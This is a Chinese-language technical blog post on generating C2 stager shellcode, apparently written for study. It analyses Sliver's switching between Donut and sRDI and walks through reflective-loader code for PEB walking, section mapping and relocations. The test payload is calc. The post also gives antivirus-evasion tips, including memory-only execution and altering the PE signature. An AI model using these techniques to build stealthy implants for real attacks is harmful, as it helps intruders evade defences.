# 模仿cs开局一个shellcode的实现

关键词：

  * C2生成shellcode
  * Donut生成shellcode
  * Dll反射生成shellcode
  * Sliver
  * PE结构
  * sRDI代码阅读与优化


cobalt strike开局我们一般会生成一段shellcode，在通过其他手段在目标机器上加载执行，这样的好处是整个过程(除了加载器外)无文件，所有执行都是在内存中进行，并且也好进行分离免杀。

cobalt strike shellcode的执行流程是 会先从team server服务器上下载beacon.dll，然后反射dll执行。

之前也有写过一个简单的任意pe文件转换shellcode在线生成工具：https://i.hacking8.com/exe2shellcode/

最近在看一些go语言写的c2，它们也有生成shellcode的选项，所以就来学习一下这个”开局”一个shellcode的操作是如何实现的，如果是自己写c2也可以模仿一下。

## Sliver

Sliver是一个开源的，跨平台的c2平台，支持mTLS、WireGuard、HTTP(S)、DNS等多个C2植入手段，支持生成MacOS、Windows、Linux等多个平台的”木马”

下载源代码，找寻一番后，发现生成shellcode的函数在`server/generate/binaries.go`的`SliverShellcode`函数



看注释说生成shellcode使用的sRDI,sRDI是什么后面再说，细细一翻代码发现了不对。。



它将原来生成srdi的函数注释了，用`Donut`生成了shellcode，编译木马的go程序编译选项也改为了`buildmode=pie`

### Donut shellcode 是啥

sliver中使用的是这个库`https://github.com/Binject/go-donut`生成shellcode，这个库是`https://github.com/TheWover/donut`的Go实现

donut可以生成x86、x64可内存执行VBScript，JScript，EXE，DLL shellcode的工具。

它内部会自动对代码段进行压缩和128位对称加密，.net可以直接加载，普通的exe需要有重定位信息才行



做个实验测试一下，编写一个go程序`main.go`
```go 
package main

import "os/exec"

func main(){
    _ = exec.Command("calc").Run()
}

```

编译
``` 
go build -builemode=exe -o exe.exe main.go
go build -buildmode=pie -o pie.exe main.go

```

用donut载入pie.exe 生成shellcode



shellcode loader加载一下



成功

但是用go直接生成的exe.exe转换不了shellcode



提示没有重定位信息。

#### 为什么需要重定位表？

没有仔细看源码，我猜的 - =

donut将exe加载到内存中展开，如果有重定位表，就可以加载PE文件到任意位置，然后根据重定位表来修复那些绝对地址的位置就行了。

如果没有重定位表，内存中的PE文件展开可能会跟shellcode loader文件冲突，如果放到内存中任意位置，可能因为绝对地址的问题造成失败。

### 历史文件信息

sliver注释了`ShellcodeRDI`，反射dll(rdi)生成shellcode的方式，为啥？

看文件的历史记录信息，发现它是在用`rdi`生成shellcode还是`donut`生成shellcode的方式上转来转去 - =



  * 2020/5/16 编写了使用rdi方式生成shellcode的方式
  * 2020/8/13 改用了Donut生成
  * 2020/10/5 又把rdi的方式换了回去
  * 2020/10/21 又换成了Donut生成
  * 2020/11/15 又换成rdi方式
  * 2021/3/8 叒换成了Donut生成shellcode的方式，下面注释了一行rdi的方式


可能它们也在这两种方式上犹豫不定 - = ?

所以再来看看反射dll生成shellcode方式是怎样的。

## 反射Dll生成shellcode(sRDI)

### 原理

反射dll原先是作为注入技术来使用的，它可以在内存中加载执行dll，来逃脱杀软对磁盘文件的监控。后来经过改造将它变成了shellcode的方式，可以将任意dll变成可以反射的shellcode，用来加载我们自己rat等程序。

### 生成sRDI shellcode

sliver生成反射dll shellcode的代码在`server/generate/srdi.go` `ShellcodeRDI`函数。它里面的go代码就是 https://github.com/monoxgas/sRDI 这个项目的实现。

sliver已经将它封装好了，只需要传入dll路径，函数名称就能够生成shellcode

#### go生成dll

以下代码都是从silver拿出来的。

`main.h`
```c 
#include <windows.h>

void RunSliver();

BOOL WINAPI DllMain(
    HINSTANCE _hinstDLL, // handle to DLL module
    DWORD _fdwReason,    // reason for calling function
    LPVOID _lpReserved   // reserved
);

```

`main.go`
```go 
package main

/*
    Sliver Implant Framework
    Copyright (C) 2019  Bishop Fox

    This program is free software: you can redistribute it and/or modify
    it under the terms of the GNU General Public License as published by
    the Free Software Foundation, either version 3 of the License, or
    (at your option) any later version.

    This program is distributed in the hope that it will be useful,
    but WITHOUT ANY WARRANTY; without even the implied warranty of
    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
    GNU General Public License for more details.

    You should have received a copy of the GNU General Public License
    along with this program.  If not, see <https://www.gnu.org/licenses/>.
*/

//#include "main.h"
import "C"
import (
    "os/exec"
)

var isRunning bool = false

// RunSliver - Export for shared lib build
//export RunSliver
func RunSliver() {
    if !isRunning {
        isRunning = true
        main()
    }
}

// Thanks Ne0nd0g for those
//https://github.com/Ne0nd0g/merlin/blob/master/cmd/merlinagentdll/main.go#L65

// DllInstall is used when executing the Sliver implant with regsvr32.exe (i.e. regsvr32.exe /s /n /i sliver.dll)
// https://msdn.microsoft.com/en-us/library/windows/desktop/bb759846(v=vs.85).aspx
//export DllInstall
func DllInstall() { main() }

func main() {
    _ = exec.Command("calc.exe").Run()
}

```

公开了很多接口，方便可以用regsvr32等程序调用，并且有互斥变量防止函数被重复调用。

**编译成dll**
``` 
go build -ldflags "-s -w" -buildmode=c-shared -o export.dll main.go

```

#### go调用sRDI 生成shellcode

复制sliver 下 `server/generate/srdi.go` `server/generate/srdi-shellcode.go` 到同一个目录，然后新建一个go文件`generate.go`
```go 
package main

import (
    "fmt"
    "io/ioutil"
    "os"
)

func main() {
    filename := "export.dll"
    functionName := "RunSliver"
    filepath := "shellcode.bin"

    data, err := ShellcodeRDI(filename, functionName, "")
    if err != nil {
        panic(err)
    }
    fmt.Println(len(data))
    _ = os.Remove(filepath)
    err = ioutil.WriteFile(filepath, data, 0644)
    if err != nil {
        panic(err)
    }
}

```

执行后就能生成shellcode了

## sRDI代码阅读

做个记录，sRDI的一些加载步骤。

### 从PEB获取 LoadLibraryA、GetProcAddress

一般的思路是遍历PEB-ldr，得到dll列表，遍历每个dll，获取dll的导出函数,实际上只需要遍历kernal32.dll，获取`LoadLibraryA`、`GetProcAddress`两个函数就可以根据它们来加载任意dll。

结合windbg来看PEB数据结构
``` 
dt nt!_peb

```



0x18 Ldr地址上保存了所有dll信息，查看peb_ldr数据
``` 
dt nt!_peb_ldr_data

```



`InLoadOrderModuleList`、`InMemoryOrderModuleList`、`InInitializationOrderModuleList` 三个位置都保存了dll列表。

分别是按照顺序、内存、初始化顺序加载。它们都是list_entry结构，查看这个结构
``` 
dt nt!_list_entry

```



是一个双链表结构,链表指向的数据结构
```c 
dt nt!_ldr_data_table_entry

```



DllBase是dll的基址，BaseDllName是dll的名称。

如果BaseDllName判断成功，解析DllBase的PE结构获取导出表，得到导出函数的地址，调用即可。

### 动态初始化函数

由LoadLibraryA、GetProcAddress，就可以来加载更多API了。
```c 
///
// STEP 1: locate all the required functions
///

pLdrLoadDll = (LDRLOADDLL)GetProcAddressWithHash(LDRLOADDLL_HASH);
pLdrGetProcAddress = (LDRGETPROCADDRESS)GetProcAddressWithHash(LDRGETPROCADDRESS_HASH);

uString.Buffer = sKernel32;
uString.MaximumLength = sizeof(sKernel32);
uString.Length = sizeof(sKernel32);

//pMessageBoxA = (MESSAGEBOXA)GetProcAddressWithHash(MESSAGEBOXA_HASH);

pLdrLoadDll(NULL, 0, &uString, &library);

FILL_STRING_WITH_BUF(aString, sVirtualAlloc);
pLdrGetProcAddress(library, &aString, 0, (PVOID*)&pVirtualAlloc);

FILL_STRING_WITH_BUF(aString, sVirtualProtect);
pLdrGetProcAddress(library, &aString, 0, (PVOID*)&pVirtualProtect);

FILL_STRING_WITH_BUF(aString, sFlushInstructionCache);
pLdrGetProcAddress(library, &aString, 0, (PVOID*)&pFlushInstructionCache);

FILL_STRING_WITH_BUF(aString, sGetNativeSystemInfo);
pLdrGetProcAddress(library, &aString, 0, (PVOID*)&pGetNativeSystemInfo);

FILL_STRING_WITH_BUF(aString, sSleep);
pLdrGetProcAddress(library, &aString, 0, (PVOID*)&pSleep);

FILL_STRING_WITH_BUF(aString, sRtlAddFunctionTable);
pLdrGetProcAddress(library, &aString, 0, (PVOID*)&pRtlAddFunctionTable);

FILL_STRING_WITH_BUF(aString, sLoadLibrary);
pLdrGetProcAddress(library, &aString, 0, (PVOID*)&pLoadLibraryA);

```

仔细看可以发现，srdi获取的是ntdll中的`LDRLOADDLL`、`LDRGETPROCADDRESS`中的地址，通过它们来加载更多函数。

### 展开内存中的dll

此时的基地址就是dll在内存中的地址(`dllData`)，想要反射执行dll，需要分析dll的PE结构手动展开到内存中。

**获取PE header地址**

第一步获取 PE header结构的地址，就是通过dll的地址加上Dos Header的一个偏移地址。
```c 
ntHeaders = (PIMAGE_NT_HEADERS)(dllData+((PIMAGE_DOS_HEADER)dllData)->e_lfanew);

```

`PIMAGE_DOS_HEADER`的结构对于我们来说基本没用，所以可以将dll的这部分减掉，同时PE头会有`Signature`字段特征，制作dll的时候可以有意识的将它换成别的来绕过杀毒。

> 
```
> Signature;固定为 0x00004550 根据小端存储为：PE..

```

PS 复习下PE header的结构 (64位下)
```c 
typedef struct _IMAGE_NT_HEADERS64 {
    DWORD Signature;
    IMAGE_FILE_HEADER FileHeader;
    IMAGE_OPTIONAL_HEADER64 OptionalHeader;
} IMAGE_NT_HEADERS64, *PIMAGE_NT_HEADERS64;

typedef struct _IMAGE_FILE_HEADER {
    WORD    Machine;               // 运行平台 32位(0x10b) 64位(0x20b) ROM(0x107)
    WORD    NumberOfSections;      // 文件的section数目
    DWORD   TimeDateStamp;         // 文件创建日期和时间
    DWORD   PointerToSymbolTable;  // 指向符号表(主要用于调试)
    DWORD   NumberOfSymbols;       // 符号表中符号个数(同上)
    WORD    SizeOfOptionalHeader;  // IMAGE_OPTIONAL_HEADER 结构大小
    WORD    Characteristics;       // 文件属性
} IMAGE_FILE_HEADER,

typedef struct _IMAGE_OPTIONAL_HEADER64 {
    WORD        Magic;
    BYTE        MajorLinkerVersion;
    BYTE        MinorLinkerVersion;
    DWORD       SizeOfCode;                    // 代码段的大小
    DWORD       SizeOfInitializedData;
    DWORD       SizeOfUninitializedData;
    DWORD       AddressOfEntryPoint;           // 程序执行入口RVA
    DWORD       BaseOfCode;
    ULONGLONG   ImageBase;                     // 文件载入内存加载到的地址
    DWORD       SectionAlignment;              // 载入内存的section 对齐大小
    DWORD       FileAlignment;                 // 磁盘上PE文件section 对齐大小
    WORD        MajorOperatingSystemVersion;
    WORD        MinorOperatingSystemVersion;
    WORD        MajorImageVersion;
    WORD        MinorImageVersion;
    WORD        MajorSubsystemVersion;
    WORD        MinorSubsystemVersion;
    DWORD       Win32VersionValue;
    DWORD       SizeOfImage;                   // Image大小,内存中整个PE文件的映射的尺寸，可比实际的值大，必须是SectionAlignment的整数倍
    DWORD       SizeOfHeaders;                 // 所有头节表按照文件对齐后的大小 e_lfanew+sizeof(signature)+sizeof(_IMAGE_FILE_HEADER)+sizeof(_IMAGE_OPTIONAL_HEADER)+sizeof(_IMAGE_SECTION_HEADER)
    DWORD       CheckSum;                      // 校验和
    WORD        Subsystem;                     // 标识可执行文件所期望的子系统
    WORD        DllCharacteristics;
    ULONGLONG   SizeOfStackReserve;
    ULONGLONG   SizeOfStackCommit;
    ULONGLONG   SizeOfHeapReserve;
    ULONGLONG   SizeOfHeapCommit;
    DWORD       LoaderFlags;
    DWORD       NumberOfRvaAndSizes;          // 其余部分中的目录条目数。每个条目都描述了一个位置和大小
    IMAGE_DATA_DIRECTORY DataDirectory[IMAGE_NUMBEROF_DIRECTORY_ENTRIES]; //数据目录
} IMAGE_OPTIONAL_HEADER64, *PIMAGE_OPTIONAL_HEADER64;

// 数据目录表
typedef struct _IMAGE_DATA_DIRECTORY {
    DWORD   VirtualAddress;
    DWORD   Size;
} IMAGE_DATA_DIRECTORY, *PIMAGE_DATA_DIRECTORY;

```

PS: 数据目录表的结构非常简单,就只有起始位置和长度大小这两个参数组成,由此可以知道这个表的开始位置和结束位置,虽然在结构体中没有指明哪一部分是什么类型的表,但是在目录表中的其他表,如导入表导出表;是有一定的顺序的,类似数组排列,排列方式以及各个表的作用与含义如下:
```c 
// Directory Entries
// 按顺序排列的数据目录表

#define IMAGE_DIRECTORY_ENTRY_EXPORT          0   // Export Directory  导出表:动态链接库导出的函数会显示在这里
#define IMAGE_DIRECTORY_ENTRY_IMPORT          1   // Import Directory  导入表:写程序时调用的动态链接库会显示在这里
#define IMAGE_DIRECTORY_ENTRY_RESOURCE        2   // Resource Directory  资源表:图片,图标,字符串,嵌入的程序都在这里
#define IMAGE_DIRECTORY_ENTRY_EXCEPTION       3   // Exception Directory  异常目录表:保存文件中异常处理相关的数据
#define IMAGE_DIRECTORY_ENTRY_SECURITY        4   // Security Directory  安全目录:存放数字签名和安全证书之类的东西
#define IMAGE_DIRECTORY_ENTRY_BASERELOC       5   // Base Relocation Table    基础重定位表:保存需要执行重定位的代码偏移
#define IMAGE_DIRECTORY_ENTRY_DEBUG           6   // Debug Directory  调试表
//      IMAGE_DIRECTORY_ENTRY_COPYRIGHT       7   // (X86 usage)
#define IMAGE_DIRECTORY_ENTRY_ARCHITECTURE    7   // Architecture Specific Data  缓存信息表:有一些保留字段必须是0
#define IMAGE_DIRECTORY_ENTRY_GLOBALPTR       8   // RVA of GP  全局指针偏移目录
#define IMAGE_DIRECTORY_ENTRY_TLS             9   // TLS Directory  线程局部存储(暂时未知)
#define IMAGE_DIRECTORY_ENTRY_LOAD_CONFIG    10   // Load Configuration Directory  载入配置
#define IMAGE_DIRECTORY_ENTRY_BOUND_IMPORT   11   // Bound Import Directory in headers 存储一些API的绑定输入信息
#define IMAGE_DIRECTORY_ENTRY_IAT            12   // Import Address Table 导入地址表：导入函数的地址
#define IMAGE_DIRECTORY_ENTRY_DELAY_IMPORT   13   // Delay Load Import Descriptors
#define IMAGE_DIRECTORY_ENTRY_COM_DESCRIPTOR 14   // COM Runtime descriptor com运行时的目录

```

**Section**

DataDirectory数据目录后面就是Section(节)头信息了。
```c 
//
// Section header format.
//

#define IMAGE_SIZEOF_SHORT_NAME              8

typedef struct _IMAGE_SECTION_HEADER {
    BYTE    Name[IMAGE_SIZEOF_SHORT_NAME];    // 名称
    union {
            DWORD   PhysicalAddress;          // 物理地址
            DWORD   VirtualSize;              // 实际使用的大小
    } Misc;
    DWORD   VirtualAddress;                   // 装载到内存中的地址虚拟地址
    DWORD   SizeOfRawData;                    // 该块在磁盘中所占的空间
    DWORD   PointerToRawData;                 // 该块在磁盘文件中的偏移
    DWORD   PointerToRelocations;
    DWORD   PointerToLinenumbers;
    WORD    NumberOfRelocations;
    WORD    NumberOfLinenumbers;
    DWORD   Characteristics;                  // 块属性
} IMAGE_SECTION_HEADER, *PIMAGE_SECTION_HEADER;

```

### 初始化dll内存空间

获取到了PE 结构后，可以根据`IMAGE_OPTIONAL_HEADER64->SizeOfImage`的大小初始化内存空间。

这个空间也要和系统的页大小(dwPageSize)对齐
```c++ 
alignedImageSize = (DWORD)AlignValueUp(ntHeaders->OptionalHeader.SizeOfImage, sysInfo.dwPageSize);

```

接着分配空间，先尝试分配在pe头指定的基址(`ntHeaders->OptionalHeader.ImageBase`)上，如果失败再分到别处
```c++ 
baseAddress = (ULONG_PTR)pVirtualAlloc(
        (LPVOID)(ntHeaders->OptionalHeader.ImageBase),
        alignedImageSize,
        MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE
);

if (baseAddress == 0) {
    baseAddress = (ULONG_PTR)pVirtualAlloc(
        NULL,
        alignedImageSize,
        MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE
    );
}

```

接着原样复制PE头的数据到`baseAddress`

对我们有用的数据只有PE头，DOS头就不用复制了
```c 
for (i = 0; i < ntHeaders->OptionalHeader.SizeOfHeaders; i++) {
    ((PBYTE)baseAddress)[i] = ((PBYTE)dllData)[i];
}

```

### 加载Section
```c++
///
// STEP 3: Load in the sections
///

sectionHeader = IMAGE_FIRST_SECTION(ntHeaders);
// 获取section头位置

for (i = 0; i < ntHeaders->FileHeader.NumberOfSections; i++, sectionHeader++) {
    // 遍历每个section
    for (c = 0; c < sectionHeader->SizeOfRawData; c++) {
        ((PBYTE)(baseAddress + sectionHeader->VirtualAddress))[c] = ((PBYTE)(dllData + sectionHeader->PointerToRawData))[c];
        // 新的section内存从原dll中sectionHeader->PointerToRawData(在硬盘的偏移)一一复制
    }
}
```

### 加载重定向表

重定位表的作用就是：当实际加载到内存中的Imagebase与本该加载时候的Imagebase地址不同的时候 就需要进行修复重定位表

其实重定位表中存的是**需要修改的函数的地址偏移** ！

重定向表的数据结构
```c 
typedef struct _IMAGE_BASE_RELOCATION {
    DWORD   VirtualAddress;   // 表的起始位置（RVA）
    DWORD   SizeOfBlock;      // 重定位块的总大小,需要注意的是这里的size不是1个2个的意思，是整个重定向表在内存中的数据长度大小
//  WORD    TypeOffset[1];
} IMAGE_BASE_RELOCATION;

```

重定向表会有多个这样的结构，可以看到重定向表中有个注释的`TypeOffset`，这是重定向块，也可以看作是重定向表中结构的一部分。

重定向块的结构
```c 
typedef struct
{
    WORD    offset : 12;
    WORD    type : 4;
} IMAGE_RELOC, * PIMAGE_RELOC;

```

作用是一些偏移地址，重定向块是word类型，它也是数组

因为1word=2byte=16bit

实际上数据项只有**后12位是用来表示偏移 (IMAGE_RELOC- >offset)**的，**高4位留作它用(IMAGE_RELOC- >type)**

比如：对于一个数据项为：**0011** 0110 0001 0000 共16位(2字节)

其偏移的数值为：0110 0001 0000 = 0x610

**如何进行修复**

> 重定位表的作用就是：当实际加载到内存中的Imagebase与本该加载时候的Imagebase地址不同的时候 就需要进行修复重定位表
> 
> 其实重定位表中存的是**需要修改的函数的地址偏移** ！

所以重定位表中所表示的地址(`IMAGE_BASE_RELOCATION->VirtualAddress+IMAGE_RELOC->offset`)原来是一个写死的值(相对于原基址`ntHeaders->OptionalHeader.ImageBase`)。

我们的修复就是将这个地址上的值减去原来的基址，加上我们新的基址即可。然后根据电脑的大小端类型分别存储即可。

**处理代码**
```c 
baseOffset = baseAddress - ntHeaders->OptionalHeader.ImageBase;
dataDir = &ntHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC];

if (baseOffset && dataDir->Size) {

    relocation = RVA(PIMAGE_BASE_RELOCATION, baseAddress, dataDir->VirtualAddress);

    while (relocation->VirtualAddress) {
        relocList = (PIMAGE_RELOC)(relocation + 1);

        while ((PBYTE)relocList != (PBYTE)relocation + relocation->SizeOfBlock) {

            if (relocList->type == IMAGE_REL_BASED_DIR64)
                *(PULONG_PTR)((PBYTE)baseAddress + relocation->VirtualAddress + relocList->offset) += baseOffset;
            else if (relocList->type == IMAGE_REL_BASED_HIGHLOW)
                *(PULONG_PTR)((PBYTE)baseAddress + relocation->VirtualAddress + relocList->offset) += (DWORD)baseOffset;
            else if (relocList->type == IMAGE_REL_BASED_HIGH)
                *(PULONG_PTR)((PBYTE)baseAddress + relocation->VirtualAddress + relocList->offset) += HIWORD(baseOffset);
            else if (relocList->type == IMAGE_REL_BASED_LOW)
                *(PULONG_PTR)((PBYTE)baseAddress + relocation->VirtualAddress + relocList->offset) += LOWORD(baseOffset);

            relocList++;
        }
        relocation = (PIMAGE_BASE_RELOCATION)relocList;
    }
}

```

### 加载导入表

导入表的数据结构
```c 
typedef struct _IMAGE_IMPORT_DESCRIPTOR {
    union {
        DWORD   Characteristics;            // 标志 为0表示结束 没有导入描述符了
        DWORD   OriginalFirstThunk;         // RVA地址，指向IMAGE_THUNK_DATA结构数组,指向的地址列表被定义为：INT（Import Name Table） 导入名称表
    };
    DWORD   TimeDateStamp;                  // 时间戳，一般不用，大多情况下都为0。如果该导入表项被绑定，那么绑定后的这个时间戳就被设置为对应DLL文件的时间戳。操作系统在加载时，可以通过这个时间戳来判断绑定的信息是否过时
    DWORD   ForwarderChain;                 // 链表的前一个结构
    DWORD   Name;                           // RVA，指向DLL名字，该名字以''\0''结尾
    DWORD   FirstThunk;                     // RVA地址，指向IMAGE_THUNK_DATA结构数组,与OriginalFirstThunk相同，它指向的链表定义了针对Name这个动态链接库引入的所有导入函数,所指向的地址列表被定义为：IAT（Import Adress Table） 导入地址表
} IMAGE_IMPORT_DESCRIPTOR;

```

